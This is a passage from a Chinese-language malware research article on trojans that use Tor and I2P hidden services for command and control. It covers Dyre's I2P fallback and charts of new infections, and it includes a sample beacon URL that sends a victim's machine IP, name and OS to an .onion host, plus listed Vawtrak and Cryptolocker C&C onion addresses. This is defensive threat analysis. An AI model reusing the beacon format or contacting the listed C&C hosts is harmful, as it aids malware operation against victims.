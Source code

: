    
    
    [REDACTED]2xx.onion:80/si.php?xd={“f155”:”MACHINE IP”,”f4336”:”MACHINE NAME”,”f7035”:”5.9.1.1”,”f1121”:”windows”,”f6463”:””,”f2015”:”1”}
    

通过泄漏出来的数据收集分析注册相关的信息，构建显示每天新增的受害者图表。

![](http://static.wooyun.org//drops/20151201/2015120111002744447picture29.jpg)

**Automated Analysis on Prevalent Query-String Parameters**

![](http://static.wooyun.org//drops/20151201/2015120111002885043picture30.jpg)

**Number of new Infections (and Leaked data, in bytes) per day.**

最后值得一提的是：一款名为Dyre的木马将I2P作为C＆C服务器的备份选项。正常情况下则使用表网的DGA。这个木马作为一个BHO的MiTMs运行在浏览器的网上银行上。攻击者可以通过后门访问受到感染的受害者银行门户。DeWA介绍这个恶意软件的时候说到：在过去的6个月间，受到I2P感染的受害者的数量明显增加。

![](http://static.wooyun.org//drops/20151201/2015120111003094444picture31.jpg)

**Traffic to Dyre’s I2P infrastructure.**

参考：

  1. <http://blog.trendmicro.com/trendlabs-security-intelligence/the-mysterious-mevade-malware/>
  2. <http://blog.trendmicro.com/trendlabs-security-intelligence/defending-against-tor-using-malware-part-1/>
  3. <http://blog.trendmicro.com/trendlabs-security-intelligence/defending-against-tor-using-malware-part-2/>
  4. <http://blog.trendmicro.com/trendlabs-security-intelligence/steganography-and-malware-why-and-how/>
  5. [Vawtrak / Neverquest C&C](http://4bpthx5z4e7n6gnb.onion/favicon.ico)
  6. [Cryptolocker C&C](http://ndvgtf27xkhdvezr.onion)

